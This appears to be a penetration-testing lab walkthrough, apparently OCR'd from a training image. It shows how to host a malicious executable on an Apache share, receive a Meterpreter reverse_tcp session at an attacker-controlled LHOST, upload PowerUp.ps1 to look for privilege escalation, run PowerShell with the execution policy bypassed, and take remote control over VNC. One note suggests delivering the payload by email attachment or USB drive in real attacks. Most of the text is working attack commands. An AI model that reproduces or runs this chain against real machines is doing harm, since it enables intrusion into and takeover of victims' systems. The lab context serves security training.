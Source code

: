 	mkdir /var/www/html/share 		# create a shared folder
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	
Copy the malicious file to the shared location:

	cp /home/attacker/Desktop/Test.exe /var/www/html/share
	
Note: Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it via an attachment in an email or through physical means such as a hard drive or pen drive.

Start the apache service:
	
	service apache2 start

Launch Metasploit framework and start the "Reverse TCP handler":

	msfconsole
	> use exploit/multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set LHOST 10.10.1.13
	> set LPORT 444
	> exploit


Download the exploit on the target (victim) machine:

	http://10.10.1.13/share	=> Download Test.exe and execute it.
	
	
On Parrot machine Meterpreter shell will open: 

	> sysinfo
	
If it does not open:

	> sessions -i 1

Upload the PowerSploit file:

	> upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
Note: PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.


Open a shell session. Observe that the present working directory points to the Downloads folder in the target system:

	> shell
	> powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”
Note: Ensure that you have added a space between two dots after -Command “.[space].. For a better understanding refer to the screenshot after step 25.

Revert to the Meterpreter session:

	> exit
	
Exploit VNC vulnerability to gain remote access to the Windows 11 machine:

	> run vnc
